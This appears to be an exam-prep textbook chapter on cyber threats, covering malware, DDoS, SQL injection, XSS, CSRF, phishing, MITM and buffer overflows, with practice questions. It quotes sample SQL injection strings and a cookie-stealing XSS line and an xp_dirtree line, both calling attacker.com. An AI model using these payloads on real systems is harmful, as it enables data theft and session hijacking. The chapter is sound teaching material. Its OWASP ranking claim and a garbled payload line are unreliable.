




# Chapter 3: Cyber Threats & Attacks

> **Exam Weightage:** 4–6 Qs in IBPS SO IT Officer Mains (Common in PK and GK sections)
>
> **Key Topics:** Malware types, DoS/DDoS, SQL Injection, XSS/CSRF, Phishing, MITM, Session Hijacking, Zero-day, Buffer Overflow

---

## Learning Objectives

After completing this chapter you will be able to:

- Classify malware types (virus, worm, trojan, ransomware, rootkit) based on propagation and payload.
- Distinguish between DoS and DDoS and describe attack vectors (SYN flood, amplification attacks).
- Explain SQL injection, XSS, and CSRF — root cause, exploitation mechanism, and mitigation.
- Identify social engineering techniques in phishing attacks.
- Describe Man-in-the-Middle attacks and their variants (ARP spoofing, DNS spoofing).
- Explain session hijacking and zero-day exploit characteristics.
- Describe buffer overflow and its prevention.
- Solve exam-style MCQs on attack identification, prevention mechanisms, and OWASP Top 10.

---

## Theory

### 3.1 Malware Types

Malware (malicious software) is any software intentionally designed to cause damage, steal data, or gain unauthorized access.

#### 3.1.1 Virus

- **Definition:** Malicious code that attaches itself to a host file (executable, script, document) and replicates when the host is executed.
- **Propagation:** Requires human action (opening infected file, running infected program)
- **Payload:** Can corrupt data, delete files, steal information, install backdoors
- **Examples:** CIH (Chernobyl), Melissa (macro virus), ILOVEYOU (VBScript worm/virus hybrid)
- **Detection:** Signature-based antivirus, behavioral analysis
- **Prevention:** Avoid opening untrusted attachments, use antivirus, keep OS patched

#### 3.1.2 Worm

- **Definition:** Standalone malware that replicates itself and spreads across networks without requiring a host file.
- **Propagation:** Self-propagating — exploits network vulnerabilities, emails, instant messaging
- **Unlike virus:** Does not need to attach to a host program; does not require human action to spread
- **Examples:** Morris (1988, first internet worm), Slammer (2003, SQL vulnerability, doubled every 8.5 seconds), Conficker (2008, infected millions), Blaster, Nimda
- **Impact:** Consumes bandwidth, overloads systems, can carry destructive payloads

**Key comparison — Virus vs Worm:**

| Feature | Virus | Worm |
|---------|-------|------|
| Host file required | Yes | No (standalone) |
| Human action needed | Yes | No (self-propagating) |
| Primary spreading | File to file | Network |
| Replication | Attaches to program | Copies itself |

#### 3.1.3 Trojan Horse

- **Definition:** Malware disguised as legitimate software to trick users into installing it.
- **Propagation:** Social engineering (appears as game, utility, update, crack)
- **Unlike virus/worm:** Does NOT self-replicate — relies entirely on deception
- **Payload:** Backdoor access, data theft, keylogging, creating botnet zombies
- **Examples:** Zeus (banking trojan), Emotet (spam/banking), SubSeven (RAT)
- **Types:**
  - **Remote Access Trojan (RAT):** Provides attacker with remote control
  - **Backdoor Trojan:** Opens specific port for unauthorized access
  - **Downloader Trojan:** Downloads additional malware
  - **Banking Trojan:** Steals financial credentials (form grabbing, web injects)
  - **DDoS Trojan:** Turns system into botnet node

#### 3.1.4 Ransomware

- **Definition:** Malware that encrypts the victim's files and demands payment (ransom, typically in cryptocurrency) for the decryption key.
- **Propagation:** Phishing emails (attachments/links), exploit kits, drive-by downloads
- **Encryption:** Typically AES/RSA hybrid (fast AES for files, RSA encrypts the AES key)
- **Examples:** WannaCry (2017 — used EternalBlue exploit, infected 230K systems globally), NotPetya (2017 — masqueraded as ransomware, actually wiper), Ryuk (targeted attacks on enterprises), LockBit (Ransomware-as-a-Service)

**Mitigation:**
- Regular backups (3-2-1 rule: 3 copies, 2 media types, 1 offsite)
- Patch management (WannaCry exploited MS17-010 — patch was available 2 months before)
- Email filtering, endpoint protection, least privilege, Network Segmentation

#### 3.1.5 Rootkit

- **Definition:** Malware that gains root/administrator-level access and hides its presence from detection tools.
- **Layers:**
  - **Firmware rootkit:** Hides in BIOS/UEFI (persists even after OS reinstall)
  - **Bootkit:** Infects Master Boot Record (MBR rootkit)
  - **Kernel rootkit:** Hooks system calls in OS kernel
  - **User-mode rootkit:** Intercepts DLL calls in user space
- **Detection:** Extremely difficult — may require offline analysis (boot from clean media, forensic tools)
- **Examples:** Sony BMG rootkit (2005 — actually DRM that hid itself), Stuxnet (2010 — used kernel rootkit components), Hacking Team's UEFI rootkit



### 3.2 DoS and DDoS Attacks

**Denial of Service (DoS):** Single source overwhelms target with traffic/requests.

**Distributed DoS (DDoS):** Multiple compromised systems (botnet) coordinate to attack target.

#### 3.2.1 SYN Flood Attack

- **Mechanism:** Exploits TCP three-way handshake. Attacker sends many SYN packets with spoofed source IP addresses (non-existent or unreachable). Server responds with SYN-ACK to spoofed IPs, allocates memory for half-open connections. Since the final ACK never arrives, connections remain in SYN_RECV state, eventually exhausting the backlog queue.
- **Target:** Server's connection table / memory
- **Mitigation:** SYN cookies (encode connection state in SYN-ACK sequence number — no memory allocated until ACK received), increase backlog queue, shorten timeout, rate limiting

**Normal TCP Handshake:** Client SYN → Server SYN-ACK → Client ACK (↔ connection established)

**SYN Flood:** Attacker SYN (spoofed) → Server SYN-ACK (to spoofed IP, never receives ACK) → backlog fills

#### 3.2.2 Amplification Attacks

- **Mechanism:** Attacker sends small queries with spoofed source IP (victim's IP) to publicly accessible servers (DNS, NTP, SSDP, Memcached). Servers send large responses to victim.
- **Amplification factor:** Response size ÷ Query size
  - DNS: up to 50× (query ~60 bytes, response ~3000 bytes with DNSSEC)
  - NTP (monlist): up to 556× (small query triggers list of up to 600 hosts)
  - Memcached: up to 51,000× (theoretical — request ~15 bytes, response up to 1MB)
- **Mitigation:** Source IP verification (BCP 38 — ingress/egress filtering), disable unnecessary services, rate limiting, DDoS protection services (Cloudflare, Akamai, AWS Shield)

#### 3.2.3 Other DDoS Vectors

| Attack Type | Layer | Mechanism | Mitigation |
|-------------|-------|-----------|------------|
| ICMP Flood (Ping Flood) | L3 | Overwhelm with ICMP echo requests | Rate limit ICMP, block external ICMP |
| HTTP Flood | L7 | Overwhelm web server with GET/POST requests | Rate limiting, WAF, CAPTCHA |
| Slowloris | L7 | Open many slow HTTP connections, keep them open | Limit concurrent connections, increase timeout |
| Ping of Death | L3 | Send malformed oversized ICMP packets (>65535 bytes) | Patch OS (fixed since 1997) |
| Teardrop | L3 | Send overlapping IP fragments | Patch OS |



### 3.3 SQL Injection

- **Root cause:** Unsanitized user input inserted directly into SQL queries
- **Impact:** Data breach, authentication bypass, data modification/deletion, remote code execution (in extreme cases)
- **Occurrence:** Anywhere user input is used to build SQL queries (login forms, search boxes, URL parameters)

**Example — Vulnerable code:**
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'guess'
```
- **Attack input:** username = `admin' --` (comment syntax)
- **Resulting query:** `SELECT * FROM users WHERE username = 'admin' --' AND password = 'guess'`
- **Effect:** Authenticates as admin without password (everything after `--` is commented out)

**Types of SQL Injection:**

| Type | Description | Example |
|------|-------------|---------|
| In-band (Error-based) | Attacker obtains data via error messages | `' OR 1=1 --` |
| In-band (Union-based) | Attacker uses UNION to combine results | `' UNION SELECT username,password FROM users --` |
| Blind (Boolean-based) | Attacker observes true/false responses | `' AND SUBSTRING(password,1,1)='a' --` (page loads or not) |
| Blind (Time-based) | Attacker observes response delay | `' IF (condition) WAITFOR DELAY '00:00:05' --` |
| Out-of-band | Attacker receives data via DNS/HTTP to attacker-controlled server | `'; EXEC xp_dirtree '//attacker.com/table' --` |

**Mitigation:**
1. **Parameterized queries (Prepared Statements)** — best defense, separates SQL code from data
2. **Stored procedures** — with careful parameter validation
3. **Input validation** — whitelist allowed characters/patterns
4. **Least privilege** — database account should have minimum required permissions
5. **WAF (Web Application Firewall)** — can detect and block SQLi patterns
6. **Escaping** — escape special characters (single quotes, etc.) — least reliable, can be bypassed

### 3.4 XSS and CSRF

#### 3.4.1 XSS (Cross-Site Scripting)

- **Root cause:** Application includes untrusted data in web pages without proper sanitization
- **Impact:** Session theft, cookie theft, redirection to malicious sites, keylogging, defacement
- **Payload:** `<script>`, `document.location='http://attacker.com/steal?cookie='+document.cookie</script>`
- Every user viewing the comment page executes the script, sending their cookies to the attacker

**Mitigation (XSS):**
1. **Output encoding/escaping** (context-specific: HTML entity, JavaScript, URL, CSS encoding)
2. **Content Security Policy (CSP)** — restricts which scripts can execute
3. **Input validation** (whitelist approach)
4. **HttpOnly cookies** — prevents JavaScript access to cookies (not a complete solution but reduces impact)
5. **DOM sanitization** — for DOM-based XSS

#### 3.4.2 CSRF (Cross-Site Request Forgery) — pronounced "sea-surf"

- **Root cause:** Application relies on cookie-based authentication without CSRF tokens — any site can forge requests to the app as the authenticated user
- **Impact:** Unauthorized actions performed on behalf of authenticated user (funds transfer, password change, email change)
- **Prerequisite:** Victim must be authenticated on target site when visiting attacker's page

**CSRF Attack Flow:**
1. Victim logs into bank.com (session cookie set)
2. Victim (without logging out) visits attacker's site (evil.com)
3. evil.com contains: ``
4. Browser automatically sends victim's session cookie along with request
5. bank.com processes the transfer because request appears to come from authenticated user

**Mitigation (CSRF):**
1. **CSRF tokens** — unique, unpredictable token embedded in forms; verified by server
2. **SameSite cookies** — `SameSite=Strict` or `SameSite=Lax` attribute prevents cookies from being sent in cross-site requests
3. **Origin/Referer header validation** — check that request originated from legitimate site
4. **Custom headers** — require `X-Requested-With: XMLHttpRequest` header (JavaScript cannot set this cross-origin without CORS)
5. **Re-authentication** for sensitive actions (password confirmation, OTP)

**XSS vs CSRF — Exam Comparison:**

| Feature | XSS | CSRF |
|---------|-----|------|
| Mechanism | Attacker injects script that executes in victim's browser | Attacker forges request using victim's session/authentication |
| What's exploited | Trust in user input (site trusts user input) | Trust in browser cookies (site trusts auth cookie) |
| State requirement | None | Victim must be authenticated on target site |
| Impact scope | Wide (cookie theft, keylogging, redirect) | Specific (execute privileged actions) |
| Persistence | Can be stored on server | Always one-time (per request) |



### 3.5 Phishing and Social Engineering

#### 3.5.1 Phishing

- **Definition:** Fraudulent attempt to obtain sensitive information (usernames, passwords, credit card details) by disguising as a trustworthy entity.
- **Delivery:** Email, SMS (smishing), voice calls (vishing)
- **Techniques:**
  - **Spear Phishing:** Targeted at specific individual/organization (uses personal details)
  - **Whaling:** Spear phishing targeting senior executives (C-level)
  - **Clone Phishing:** Legitimate email duplicated with malicious link/attachment
  - **Pharming:** DNS poisoning redirecting users to fake websites (even with correct URL)

**Phishing Indicators:**
- Spoofed sender address (e.g., `support@bank-secure.com` vs `support@bank.com`)
- Urgency / threats ("Your account will be closed in 24 hours")
- Generic greeting ("Dear Customer" instead of name)
- Suspicious links (hover to reveal; misspelled domains like `g00gle.com`)
- Attachments (PDF, DOC, ZIP) — common malware delivery
- Poor grammar and spelling
- Requests for sensitive information (banks never ask for passwords via email)

#### 3.5.2 Social Engineering

- **Definition:** Psychological manipulation of people to perform actions or divulge confidential information.
- **Principles (Cialdini):**
  - **Authority:** Pretend to be authority figure (IT support, manager, law enforcement)
  - **Urgency/Scarcity:** Create time pressure ("Act now or account will be locked")
  - **Familiarity/Liking:** Build rapport before requesting information
  - **Reciprocity:** Offer help/information before asking
  - **Social Proof:** "Everyone else has already done this"

**Common Techniques:**
| Technique | Description |
|-----------|-------------|
| **Baiting** | Leaving malware-infected USB drives in parking lots/restrooms |
| **Tailgating** (Piggybacking) | Following authorized person through secure door |
| **Pretexting** | Creating fabricated scenario to obtain information |
| **Quid Pro Quo** | Offering service/information in exchange for data |
| **Dumpster Diving** | Recovering sensitive documents from trash |

### 3.6 Man-in-the-Middle (MITM) Attacks

- **Definition:** Attacker secretly intercepts and possibly alters communication between two parties who believe they are communicating directly.
- **Prerequisite:** Attacker must be positioned on the communication path (same network segment, compromised router, ARP spoofing)

#### 3.6.1 ARP Spoofing (Local Network)

- **Mechanism:** Attacker sends forged ARP (Address Resolution Protocol) replies, associating their MAC address with the gateway's IP address. Victim's traffic meant for gateway is redirected to attacker.
- **Environment:** Local network (LAN, same broadcast domain)
- **Impact:** Traffic interception, session hijacking, credential theft
- **Mitigation:** Dynamic ARP Inspection (DAI on switches), static ARP entries, port security, encryption (TLS prevents content exposure but not interception)

#### 3.6.2 DNS Spoofing (DNS Cache Poisoning)

- **Mechanism:** Attacker injects forged DNS records into DNS resolver's cache. When victim's browser resolves `bank.com`, it gets attacker's IP address.
- **Impact:** Redirects victim to attacker's fake website (used for credential theft even with HTTPS — but will trigger certificate warnings)
- **Mitigation:** DNSSEC (DNS Security Extensions) — digitally signs DNS records, validates origin

#### 3.6.3 SSL Stripping

- **Mechanism:** Attacker intercepts HTTPS requests and downgrades to HTTP before forwarding to server. Victim sees HTTP (no padlock), but may not notice.
- **Mitigation:** HSTS (HTTP Strict Transport Security) — server tells browser to always use HTTPS; preloaded HSTS lists in browsers

### 3.7 Session Hijacking

- **Definition:** Attacker takes over an authenticated user session by stealing/guessing the session identifier.
- **Methods:**

| Method | Technique | Prevention |
|--------|-----------|------------|
| Session Prediction | Guessing weak session IDs (sequential, timestamp-based) | Use cryptographically random session IDs (CSRNG) |
| Session Sniffing | Capturing session cookie from unencrypted traffic | Use HTTPS for entire session (Secure flag on cookies) |
| Session Fixation | Attacker sets victim's session ID to known value before login | Regenerate session ID after successful login |
| XSS-based | Stealing cookie via injected JavaScript | HttpOnly cookie flag + CSP |
| MITM-based | Intercepting traffic and extracting session cookie | End-to-end encryption (TLS) |

**Session Hijacking Flow:**
1. Victim authenticates → server creates session with ID `abc123`
2. Session ID stored in cookie, transmitted with each request
3. Attacker obtains `abc123` (via sniffing / XSS / prediction)
4. Attacker sets cookie `abc123` in their browser → appears as authenticated user
5. Server processes attacker's requests as if they were the victim

### 3.8 Zero-Day Exploits

- **Definition:** Attack exploiting a vulnerability unknown to the software vendor (no patch exists at time of attack).
- **Timeline:** Vulnerability discovered → exploit developed → attack occurs → vendor notified → patch developed → patch deployed
- **Zero-day window:** The period between exploit release and patch deployment
- **Detection:** Extremely difficult — no signature, no known pattern
- **Defense strategies:**
  - Defense in depth (layered security)
  - Application whitelisting
  - Behavioral analysis / anomaly detection
  - Sandboxing
  - Bug bounty programs (ethical hackers find vulnerabilities before attackers)
  - Vulnerability disclosure policies

### 3.9 Buffer Overflow

- **Definition:** Program writes more data to a buffer than it can hold, overwriting adjacent memory locations.
- **Root cause:** No bounds checking on memory operations (common in C/C++ with `gets()`, `strcpy()`, `sprintf()`)
- **Exploitation:** Attacker overwrites the return address stored on the stack to point to injected shellcode (malicious machine code).
- **Prevention:**
  - **Stack canaries** — random value placed between buffer and return address; if overwritten, program terminates
  - **ASLR (Address Space Layout Randomization)** — randomizes memory addresses of process components
  - **NX/DEP (No-Execute / Data Execution Prevention)** — marks stack/heap as non-executable
  - **Safe functions** — use `strncpy()` instead of `strcpy()`, `snprintf()` instead of `sprintf()`
  - **Memory-safe languages** — Rust, Go, Java (garbage collection, bounds checking)



### 3.10 Solved MCQs (Exam Style)

**Q1.** Which attack involves sending overlapping IP fragments to crash the target system?

A) SYN flood  
B) Smurf attack  
C) Teardrop attack  
D) Ping of Death  

<details>
<summary>Show Answer</summary>

**Answer: C) Teardrop attack**

**Explanation:** The Teardrop attack sends IP fragments with overlapping offset values. When the target attempts to reassemble the fragments, the overlapping data causes the system to crash or reboot. This is a protocol-level exploit specific to IP fragment reassembly. Ping of Death involves oversized packets (>65535 bytes), not fragment overlap.
</details>

---

**Q2.** Which of the following is the most effective defense against SQL injection?

A) Input validation  
B) Parameterized queries (Prepared Statements)  
C) WAF (Web Application Firewall)  
D) Output encoding  

<details>
<summary>Show Answer</summary>

**Answer: B) Parameterized queries (Prepared Statements)**

**Explanation:** Prepared Statements separate SQL code from data — user input is bound as parameters, never concatenated directly into SQL. This completely prevents SQL injection regardless of the input content. Input validation and WAF are secondary defenses; output encoding prevents XSS, not SQLi.
</details>

---

**Q3.** In a CSRF attack, the primary reason the forged request is accepted by the server is:

A) The server does not validate the request origin  
B) The attacker knows the victim's password  
C) The browser automatically sends authentication cookies with the forged request  
D) The server has a weak TLS configuration  

<details>
<summary>Show Answer</summary>

**Answer: C) The browser automatically sends authentication cookies with the forged request**

**Explanation:** CSRF exploits the fact that browsers automatically include cookies in cross-origin requests (via img, script, iframe tags). The server receives a valid session cookie and processes the request as if it came from the authenticated user. The server cannot distinguish between a legitimate request and a forged one without additional CSRF protection (tokens, SameSite cookies, custom headers).
</details>

---

**Q4.** Which type of malware does NOT require human action to spread?

A) Virus  
B) Trojan  
C) Worm  
D) Ransomware  

<details>
<summary>Show Answer</summary>

**Answer: C) Worm**

**Explanation:** Worms are self-propagating — they automatically spread across networks by exploiting vulnerabilities, without requiring any user action. Viruses require a human to execute the infected host file. Trojans rely on users voluntarily installing them (deception). Ransomware typically requires user action (clicking link/opening attachment) to execute, though some variants spread via worm-like mechanisms.
</details>

---

**Q5.** What is the amplification factor of a DNS amplification attack?

A) Up to 10×  
B) Up to 50×  
C) Up to 556×  
D) Up to 51,000×  

<details>
<summary>Show Answer</summary>

**Answer: B) Up to 50×**

**Explanation:** DNS amplification can amplify traffic up to ~50× (small ~60-byte query can generate ~3000-byte response with DNSSEC records). NTP monlist command provides up to 556× amplification. Memcached can theoretically provide up to 51,000× amplification. DNS is the most commonly used amplification vector due to the large number of open DNS resolvers.
</details>

---

**Q6.** Which XSS type persists on the server and affects all users who view the affected page?

A) Reflected XSS  
B) Stored XSS  
C) DOM-based XSS  
D) Blind XSS  

<details>
<summary>Show Answer</summary>

**Answer: B) Stored XSS**

**Explanation:** Stored (persistent) XSS occurs when the malicious script is permanently stored on the server (in a database, comment field, profile field, etc.). Every user who views the affected page will execute the script. Reflected XSS only affects the user who clicks the crafted link. DOM-based XSS executes client-side without server involvement.
</details>

---

**Q7.** What is the primary difference between spear phishing and regular phishing?

A) Spear phishing targets specific individuals with personalized content  
B) Spear phishing uses SMS instead of email  
C) Spear phishing targets only high-net-worth individuals  
D) Spear phishing does not require a spoofed sender address  

<details>
<summary>Show Answer</summary>

**Answer: A) Spear phishing targets specific individuals with personalized content**

**Explanation:** Spear phishing is a targeted form of phishing where the attacker researches the victim (name, role, organization, interests) and crafts personalized messages to increase credibility. Regular phishing broadcasts the same generic message to millions of recipients. Whaling is spear phishing targeting senior executives specifically.
</details>

---

**Q8.** Which technique prevents buffer overflow by placing a guard value between the buffer and the return address on the stack?

A) ASLR  
B) Stack canary  
C) NX bit  
D) Address Sanitizer  

<details>
<summary>Show Answer</summary>

**Answer: B) Stack canary**

**Explanation:** A stack canary is a random value placed on the stack between the buffer and the return address. Before the function returns, the canary value is checked. If it has been overwritten (by a buffer overflow), the program terminates immediately. ASLR randomizes memory addresses, NX/DEP marks memory regions as non-executable — both are complementary defenses but do not use guard values.
</details>

---

**Q9.** SYN cookies are used to defend against which attack?

A) SYN flood  
B) DNS amplification  
C) HTTP flood  
D) Slowloris  

<details>
<summary>Show Answer</summary>

**Answer: A) SYN flood**

**Explanation:** SYN cookies defend against SYN flood attacks. The server encodes connection state information in the SYN-ACK sequence number (cookies), avoiding allocating memory for half-open connections until the final ACK arrives. This prevents the connection backlog from being exhausted. Other defenses include increasing the backlog queue size and shortening the SYN timeout.
</details>

---

**Q10.** The MBR (Master Boot Record) rootkit infects which component of the boot process?

A) Operating system kernel  
B) BIOS/UEFI firmware  
C) Boot sector of the hard disk  
D) Windows registry  

<details>
<summary>Show Answer</summary>

**Answer: C) Boot sector of the hard disk**

**Explanation:** A bootkit (MBR rootkit) infects the Master Boot Record — the first sector of the hard disk that executes during system startup, before the OS loads. It can thus intercept and hide from OS-level detection tools. Firmware rootkits infect BIOS/UEFI (even harder to detect). Kernel rootkits hook OS kernel functions.
</details>

---

## Summary

1. **Malware types:** Virus (attaches to host, needs user action), Worm (self-propagating, network spread), Trojan (disguised, no self-replication), Ransomware (encrypts for ransom, WannaCry), Rootkit (hides presence, kernel/firmware level).

2. **DoS/DDoS:** SYN flood (TCP handshake exploitation — SYN cookies defend), Amplification attacks (DNS 50×, NTP 556×, Memcached 51,000×), HTTP flood, Slowloris.

3. **SQL Injection:** Root cause = unsanitized input in SQL queries. Best defense = parameterized queries. Types: In-band (error/union), Blind (boolean/time), Out-of-band.

4. **XSS** (stored/reflected/DOM) = injected script executes in victim's browser. Defense: output encoding, CSP, HttpOnly cookies. **CSRF** = forged request with victim's cookie. Defense: CSRF tokens, SameSite cookies.

5. **Phishing:** Deceptive emails/messages to steal credentials. Spear phishing = targeted. Social engineering exploits psychological principles (authority, urgency).

6. **MITM attacks:** ARP spoofing (LAN), DNS spoofing (cache poisoning), SSL stripping. Encryption (TLS) prevents content interception but not traffic analysis.

7. **Session hijacking:** Stealing session ID via sniffing, XSS, prediction. Prevention: Secure + HttpOnly cookies, HTTPS, session ID regeneration after login.

8. **Zero-day:** Exploit for unknown vulnerability (no patch available). **Buffer overflow:** Writing past buffer boundary → overwriting return address → code execution. Defenses: stack canaries, ASLR, NX/DEP, safe functions.

## Practical Takeaways

- **For exam prep:** Memorize attack types and their primary defense mechanisms. Know which attacks exploit specific protocols (SYN flood → TCP, Teardrop → IP fragmentation). Remember OWASP Top 10: Injection (#1), XSS (#2), CSRF (#3), etc. for exams referencing OWASP.
- **For web applications:** Always use parameterized queries (SQLi defense). Implement CSRF tokens on all state-changing forms. Enable CSP headers. Set HttpOnly + Secure + SameSite cookie flags.
- **For network security:** Enable SYN cookies. Filter ICMP. Use BCP 38 (ingress/egress filtering) to prevent spoofed source IPs. Deploy WAF for application-layer attacks.
- **For defense in depth:** Combine signature-based + anomaly-based detection. Implement least privilege. Regular patching. Backup 3-2-1. Security awareness training (phishing simulations).

---

## Chapter Quiz (5 MCQs)

**Q1.** Which of the following correctly matches the attack type with its primary target?

A) Slowloris → Database connection pool  
B) SYN flood → TCP connection backlog  
C) Teardrop → TLS handshake  
D) DNS amplification → Application server CPU  

<details>
<summary>Show Answer</summary>

**Answer: B) SYN flood → TCP connection backlog**

**Explanation:** SYN flood targets the server's TCP connection backlog by sending many SYN packets with spoofed source IPs, filling the backlog queue with half-open connections until no new legitimate connections can be established. Slowloris targets web server connection threads (not database). Teardrop targets IP fragment reassembly. DNS amplification targets network bandwidth (not server CPU).
</details>

---

**Q2.** The primary difference between Stored XSS and Reflected XSS is:

A) Stored XSS requires user interaction; Reflected does not  
B) Stored XSS is permanently stored on the server; Reflected XSS is in the URL/response  
C) Stored XSS can be prevented with CSP; Reflected XSS cannot  
D) Stored XSS only affects Internet Explorer; Reflected affects all browsers  

<details>
<summary>Show Answer</summary>

**Answer: B) Stored XSS is permanently stored on the server; Reflected XSS is in the URL/response**

**Explanation:** Stored XSS persists on the server (database, file, comment thread) and affects every user who views the affected page. Reflected XSS is embedded in the URL/request and reflected in the immediate response — the victim must be tricked into clicking a crafted link. Both can be prevented by proper output encoding and CSP.
</details>

---

**Q3.** Which of the following is NOT a valid defense against CSRF attacks?

A) SameSite cookie attribute  
B) CSRF token in form hidden field  
C) CAPTCHA on login page  
D) Origin header validation  

<details>
<summary>Show Answer</summary>

**Answer: C) CAPTCHA on login page**

**Explanation:** CAPTCHA on the login page helps prevent automated brute-force login attempts, but does not prevent CSRF attacks specifically. CSRF occurs on state-changing actions (funds transfer, password change) while the user is already authenticated. Valid CSRF defenses include SameSite cookies, embedded CSRF tokens, custom headers, and Origin/Referer validation. CAPTCHA on sensitive actions can be an additional layer but is not a direct CSRF defense.
</details>

---

